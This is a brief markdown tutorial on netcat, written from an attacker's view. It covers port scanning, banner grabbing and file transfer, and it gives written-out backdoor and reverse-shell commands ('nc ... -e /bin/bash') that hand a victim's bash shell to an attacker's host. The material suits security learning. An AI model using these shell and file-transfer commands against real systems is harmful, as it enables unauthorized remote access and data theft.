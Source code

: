 ## NetCat

 `Netcat` and `nc` are same, but ncat is different and comes with encrypted feature made by nmap
 you have to manually install `ncat`. nc is preinstalled.

### Objectives

- Network scan

- Banner Grabbing

- Backdoor

- Execute Binary files

- Share files throw netcat

### Switches

- `-l` : listen, listening requests

- `-v`: verbose, display detaileds

- `-p` : port, specify port number

- `-w` : timeout, set time then stop sending request

- `-n` : dont't resolve, if ip is given no need to resolve the ip

- `-e` : execute commands,

- `-z` : port scan, to scan ports

### Banner grabbing

```bash
nc -zvw 1 192.168.0.2 1-100
```

`nc` :  tool name nc
`-z` : scan networks
`-v` : verbose, show details
`-w` : set timeout `1` for example
`192.168.0.1` : ip of target/ victim
`1-100` : range of port

scan for particular port open
```bash
nc -zvw 1 192.168.0.2 22
```

in above example we scan only `22` port, it will only show port open
or connection refused means port closed or firewall is blocking your requests.
or timeout.

```bash
nc -zvnw 1 192.168.0.2 1-100
```

`-n` : don't resolve, if domain name given then it should be resolve into ip.
we already given ip then no need to resolve ip again time save.

```bash
echo "" | nc -vn 192.168.0.2 80
```

we are sending empty string to` port 80` and waiting for infomative response

### Backdoor

`Listener` : attacker wait for victim/target to send request.

```bash
nc -lvp <port_number> -e /bin/bash
```

`-l` : listen
`v` : verbose
`p` : specify port number
`-e` : execute command `/bin/bash ` this will return bash shell

`/bin/bash` :  binary bash shell 

`Initiator` : victim send request to listener

```bash
# nc -v <ip of listener or attacker> <port>
nc -v 192.168.0.2 22
```

`-v` : verbose
`specify ip address of listener`
`specify port number of listener`


#### Shells
- Reverse shell

when attacker/listener is listening a request from initiator/victim/target

- Bind shell

when attacker/initiator request to victim/target/listener


**Reverse shell**

**Attacker**
```bash
nc -lvp 2211
```

**Target**
```
nc -v 192.168.0.1 2211 -e /bin/bash
```

when target execute command in terminal a request goes to listener or attcaker
and `/bin/bash` this  execute on target machine, which attacker got bash shell
of Target machine.

### File Sharing

**Rec. file as an attacker**

**recv.**

```bash
nc -lvp 2211 > recv.txt
```

**sender**

```bash
# attacker ip: 192.168.0.1
nc -v 129.168.0.1 2211 < send.txt
```

**Send file as an attacker**

**sender**

```bash
nc -lvp 2211 < send.txt
```

**recv.**

```bash
nc -v 192.168.0.1 2211 > recv.txt
```
